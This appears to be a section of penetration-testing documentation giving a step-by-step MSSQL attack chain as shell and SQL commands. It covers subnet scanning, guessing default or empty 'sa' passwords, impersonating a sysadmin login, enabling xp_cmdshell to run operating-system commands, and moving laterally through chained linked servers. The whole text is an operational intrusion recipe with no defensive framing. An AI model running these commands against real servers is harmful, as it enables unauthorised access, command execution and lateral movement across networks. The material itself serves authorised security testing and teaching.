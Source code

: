 ## Attack Chain Integration

### Initial Database Access
```bash
# Step 1: Discover MSSQL services
nmap -p 1433 --script ms-sql-info 192.168.1.0/24

# Step 2: Attempt connection with common credentials
python3 mssqlclient.py sa:sa@192.168.1.100
python3 mssqlclient.py sa:password@192.168.1.100
python3 mssqlclient.py sa:@192.168.1.100  # Empty password

# Step 3: Try Windows authentication if domain joined
python3 mssqlclient.py -windows-auth domain.com/user:password@sql.domain.com
```

### Privilege Escalation Through MSSQL
```bash
# Step 1: Connect and enumerate privileges
python3 mssqlclient.py sa:password@192.168.1.100
SQL> enum_impersonate

# Step 2: Impersonate higher privileged user
SQL> exec_as_login sysadmin_user
SQL> SELECT SYSTEM_USER, USER_NAME()

# Step 3: Enable command execution
SQL> enable_xp_cmdshell

# Step 4: Execute system commands
SQL> xp_cmdshell "whoami /all"
SQL> xp_cmdshell "net localgroup administrators"
```

### Lateral Movement via Linked Servers
```bash
# Step 1: Enumerate linked servers
python3 mssqlclient.py sa:password@sql1.domain.com
SQL> enum_links

# Step 2: Use linked server for lateral movement
SQL> use_link SQL2
SQL> SELECT @@servername  # Confirm connection to linked server

# Step 3: Execute commands on linked server
SQL> xp_cmdshell "whoami"  # This executes on the linked server

# Step 4: Chain through multiple linked servers
SQL> use_link SQL3
SQL> enum_db  # Enumerate databases on third server
```
